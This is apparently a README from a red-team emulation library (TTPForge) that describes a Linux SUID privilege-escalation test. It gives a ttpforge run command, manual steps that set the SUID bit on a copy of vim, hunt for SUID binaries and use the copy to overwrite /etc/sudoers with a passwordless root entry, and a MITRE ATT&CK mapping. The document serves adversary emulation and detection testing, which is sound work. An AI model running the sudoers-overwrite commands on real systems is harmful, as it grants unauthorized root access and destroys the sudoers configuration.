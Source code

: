 # Suid Binary Escalation

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP demonstrates how to use a SUID binary to escalate privileges.

## Arguments

- **unprivduser**: The unprivileged user to switch to before using the SUID binary.

## Prerequisites

The executor must be run as root user.

## Examples

```bash
ttpforge run forgearmory//privilege-escalation/linux/suid-binary-escalation/suid-binary-escalation.yaml \
  --arg unprivduser=SOME_USER
```

## Manual Reproduction Steps

```
### Escalate privileges for setup
sudo su

# Setup privesc
cp /usr/bin/vim /usr/bin/vim.old && \
    chmod u+s /usr/bin/vim.old

### Change to a user that does not have sudo privileges
su - unprivduser

# Hunt for SUID bins
find / -perm -4000

# Add unprivileged user to the sudoers file
/usr/bin/vim.old -b -c "s/.*/$(whoami) ALL=(ALL) NOPASSWD:ALL/" -c "wq!" /etc/sudoers 2> /dev/null

### Confirm success - should return root
sudo su
whoami
```

## Steps

1. setup-privileges: This step creates a copy of the target binary and sets the SUID bit on it. Additionally, a cleanup step is provided to remove the copy post-execution unless --no-cleanup is specified.
2. hunt-for-suid-bins: This step searches for all SUID binaries on the system.
3. escalate-privilege: This step switches to the unprivileged user and uses the SUID binary to escalate privileges. If successful, the output will show "TTP Ran Successfully". Otherwise, it will show "TTP failed".

## MITRE ATT&CK Mappinp

- **Tactics**:
    - TA0004 Privilege Escalation
- **Techniques**:
    - T1548 Abuse Elevation Control Mechanism
- **Subtechniques**:
    - T1548.001 Abuse Elevation Control Mechanism Setuid and Setgid
